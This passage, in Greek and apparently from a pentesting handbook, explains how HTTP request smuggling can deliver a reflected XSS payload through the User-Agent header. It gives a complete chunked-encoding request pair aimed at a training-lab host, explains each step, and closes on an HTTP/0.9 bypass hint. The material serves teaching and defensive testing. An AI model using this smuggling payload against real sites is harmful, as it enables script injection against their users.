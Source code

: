 ### Χρήση του κλοπομένου αιτήματος HTTP για εκμετάλλευση αντανακλαστικού XSS

Το Κλοπομένο Αίτημα HTTP μπορεί να χρησιμοποιηθεί για να εκμεταλλευτεί σελίδες ιστού ευάλωτες σε **Αντανακλαστικό XSS**, προσφέροντας σημαντικά πλεονεκτήματα:

* Δεν απαιτείται **αλληλεπίδραση** με τους στόχους.
* Επιτρέπει την εκμετάλλευση του XSS σε μέρη του αιτήματος που είναι **συνήθως μη προσβάσιμα**, όπως οι κεφαλίδες αιτήματος HTTP.

Σε σενάρια όπου μια ιστοσελίδα είναι ευάλωτη στο Αντανακλαστικό XSS μέσω της κεφαλίδας User-Agent, το παρακάτω φορτίο δείχνει πώς να εκμεταλλευτεί αυτήν την ευπάθεια:
```
POST / HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Cookie: session=ac311fa41f0aa1e880b0594d008d009e
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 213
Content-Type: application/x-www-form-urlencoded

0

GET /post?postId=2 HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: "><script>alert(1)</script>
Content-Length: 10
Content-Type: application/x-www-form-urlencoded

A=
```
Αυτό το φορτίο είναι δομημένο για να εκμεταλλευτεί την ευπάθεια με τους εξής τρόπους:

1. Έναρξη ενός αιτήματος `POST`, που φαίνεται τυπικό, με ένα κεφαλίδα `Transfer-Encoding: chunked` για να υποδείξει την έναρξη του smuggling.
2. Ακολουθείται από ένα `0`, που σηματοδοτεί το τέλος του σώματος μηνύματος σε κομμάτια.
3. Στη συνέχεια, εισάγεται ένα smuggled αίτημα `GET`, όπου η κεφαλίδα `User-Agent` εισάγεται με ένα script, `<script>alert(1)</script>`, ενεργοποιώντας το XSS όταν ο διακομιστής επεξεργάζεται αυτό το επόμενο αίτημα.

Με τη χειραγώγηση του `User-Agent` μέσω smuggling, το φορτίο παρακάμπτει τους κανονικούς περιορισμούς αιτημάτων, εκμεταλλευόμενο την ευπάθεια του Reflected XSS με έναν μη τυπικό αλλά αποτελεσματικό τρόπο.

#### HTTP/0.9

{% hint style="danger" %}
Στην περίπτωση που το περιεχόμενο του χρήστη αντανακλάται σε μια απάντηση με ένα **`Content-type`** όπως **`text/plain`**, αποτρέποντας την εκτέλεση του XSS. Αν ο διακομιστής υποστηρίζει **HTTP/0.9 ενδέχεται να είναι δυνατή η παράκαμψη αυτού**!
{% endhint %}

Η έκδοση HTTP/0.9 ήταν προηγούμενη της 1.0 και χρησιμοποιεί μόνο **GET** ρήματα και **δεν** απαντά με **κεφαλίδες**, μόνο με το σώμα.
